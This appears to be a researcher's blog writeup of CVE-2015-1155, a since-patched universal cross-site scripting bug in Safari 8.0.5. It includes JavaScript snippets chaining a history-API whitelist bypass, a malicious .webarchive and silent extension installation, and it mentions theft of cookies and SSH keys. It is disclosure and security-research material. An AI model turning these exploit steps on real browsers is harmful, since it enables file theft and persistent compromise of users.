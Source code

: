 ```yaml
---
layout: post
title: "Adventures in Browser Exploitation Part II: Mac OS X Safari 8.0.5 UXSS"
---
```


This is a writeup of a vulnerability I discovered in Mac OS X Safari 8.0.5 and earlier that allowed malicious websites to run Javascript under an arbitrary domain - a UXSS bug. A UXSS bug is a breakdown in Same Origin Policy - the fundamental security policy that keeps the data in your browser safe. UXSS bugs pop up a lot and it is good to know the scope of such a vulnerability, as this gives you a good idea of the trust boundaries at work within the Safari browser.

### The bug

First, I'll walk through the bug. It all stems from an error page - native error and warning pages in Safari are actually just file URLs: you can see this by browsing to some closed port like `http://localhost:12345`, pulling up the debugger console, and running:

    > window.location.href
    < "file:///Applications/Safari.app/Contents/Resources/"

So error pages are hosted via a file URL. This is somewhat common (AOSP browser does/did this), and is not in itself wrong. However, it does allow an arbitrary website to gain a reference to a window in `file://`. Although you can't get a native Safari error page to show up in an embedded iframe, you can pop open a new window (by convincing the user to click anywhere on the page):

    window.onclick = function() {
      var fileWin = window.open('http://localhost:12345', '_blank');
    }

The variable `fileWin` now references a window that contains content belonging to a `file://` URL. This is still not a problem, because Same Origin Policy should prevent us from accessing or injecting script into this cross-domain window. This is where the actual vulnerability occurs. Browsers allow cross-domain access to a restricted set of properties on a cross-domain window, including `location`, `postMessage`, and `history`. For example:

	> console.log(fileWin.history)
	< [Object object]
	> fileWin.history.replaceState({},{},'/');
	SecurityError

So while we can access the `history` object, we can't access the `pushState` or `replaceState` property of that object. What if we tried calling the `replaceState` function belonging to the current `history` object on the cross-domain `history` object?

	history.replaceState.call(fileWin.history, {}, {}, 'file:///');

Nothing happens. This is because only the `state` changed - a new page was not requested. Let's try reloading the page:

    history.replaceState.call(fileWin.history, {}, {}, 'file:///');
    fileWin.location.reload();

And...

	Safari has unexpectedly crashed.

Okay... After digging in a bit, it turns out Safari has some extra security around navigating a document to a `file://` URL. Basically the browser maintains a whitelist of `file://` URLs that it knows the user has explicitly browsed to and should be allowed. If the desired URL is not on the list, *or is not in a subdirectory of a URL on the list*, the browser crashes on an assertion. This is awesome news - it should prevent an attacker armed with the bug I had discovered from escalating things further.

### Bypassing the URL whitelist

Except there turned out to be an exception in this whitelist - pages in the browser history that are navigated *back* to are allowed to be `file://` URLs. This is to accomodate windows that are restored after Safari has been quit and restarted - these windows also restore their history state, and so may need to be able to navigate "back" to a `file://` URL that the user had visited before quitting the session.

So, the full bypass:

    history.replaceState.call(fileWin.history, {}, {}, 'file:///');
    fileWin.location = 'about:blank';
    fileWin.history.back();

This should pop open a Finder window pointing to `/`. Because the root `file:///` path now exists in the history, an attacker can navigate this window to any valid file URL.

### Powers of a file:// URL in Safari

HTML documents served under a `file://` URL have their own set of powers: they can read the contents of any file on the filesystem, and they can inject Javascript into arbitrary domains (UXSS). However, there is a major restriction: if the HTML document file has Apple's Quarantine attribute (set automatically on download files and mounted filesystems), then it is run under a sandboxed context and has no special powers.

It took some time for me to think of a way to drop a file that could run with the normal `file://` privileges. It turned out .webarchive files still have the usual ridiculous list of powers, regardless of the presence of the Quarantine attribute. By mounting an anonymous FTP drive containing a malicious .webarchive, an attacker could navigate the user's browser to this privileged file.

Now that the attacker could read any file on the filesystem, and could inject script into any domain, where to go from there? Installing a Safari extension would be very useful - this would leave a permanent hook for the attacker in every interaction between the user and the browser. Safari users can install extensions directly from `https://extensions.apple.com`, so I investigated what that API might look like. Turned out to be very simple:

	safari.installExtension("https://data.getadblock.com/safari/AdBlock.safariextz", "com.betafish.adblockforsafari-UAMUU4S2D9");

The above line, when run under `extensions.apple.com`, will silently install the AdBlock Safari extension. Using this same approach, an attacker could load `extensions.apple.com` in a window, then abuse the powers of the malicious .webarchive file to inject script into this window that installed the extension of their choosing.

### Disclosure

This vulnerability was allocated `CVE-2015-1155` and was fixed by Apple in a May 2015 security update for versions Safari 8.0.5, 7.1.5, and 6.2.5. Apple's disclosure can be found [here](https://support.apple.com/en-us/HT204826).

Additionally I have submitted a Metasploit module for this vulnerability, which can be found [here](https://github.com/rapid7/metasploit-framework/pull/5593/files). The module demonstrates cookie database and SSH key theft, as well as silent extension installation.

